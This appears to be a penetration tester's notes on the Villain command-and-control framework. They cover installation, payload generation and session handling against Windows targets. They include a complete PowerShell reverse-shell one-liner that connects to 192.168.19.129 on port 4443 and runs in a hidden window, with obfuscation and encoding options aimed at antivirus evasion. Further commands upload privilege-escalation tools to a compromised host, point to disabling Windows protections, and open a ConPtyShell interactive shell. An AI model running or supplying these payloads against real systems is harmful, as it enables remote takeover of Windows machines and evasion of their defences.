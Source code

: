```
git clone https://github.com/t3l3machus/Villain
```
```
cd Villain
```
```
pip3 install -r requirements.txt
```
```
sudo apt update && sudo apt install gnome-terminal
```
```
python3 Villain.py
```
Standard payload - demo'd below
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0
```
Obfuscated payload
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 obfuscate
```
Base64 encoded
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 encode
```
Constraint mode
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 constraint_mode
```
Use [[Invoke-Obfuscate]] OR the method below to attempt AV bypass.
`Start-Process $PSHOME\powershell.exe -ArgumentList {$client = New-Object System.Net.Sockets.TCPClient('192.168.19.129',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()} -WindowStyle Hidden`
The payload as printed will not bypass Windows Defender.
[[5._firewall and AntiVirus#PowerShell manual obfuscation]]
```
backdoors
```
Session ID                           IP Address           Shell            Listener  Stability  Status
3ee028-3f8986-ddcf3f  192.168.19.131  powershell.exe  netcat    Stable     Active
```
shell 3ee028-3f8986-ddcf3f
```
Disable Window protections:
[[5._firewall and AntiVirus]]
Upload tools:
[[0.__PrivEsc Tools (WINDOWS)]]
#### Uploading a file
```
upload /home/kali/Desktop/Invoke-winPEAS.ps1 C:\Users\Target\Desktop\Invoke-winPEAS.ps1 3ee028-3f8986-ddcf3f
```
#### Siblings
```
connect $KALI 6501
```
```
siblings
```
#### Chat
Simply add a `#` before any message to broadcast out.
```
#Chat Test!
```
#### conptyshell
ConPtyShell is a Fully Interactive Reverse Shell for Windows systems.
```
conptyshell eth0 9999 3ee028-3f8986-ddcf3f
```
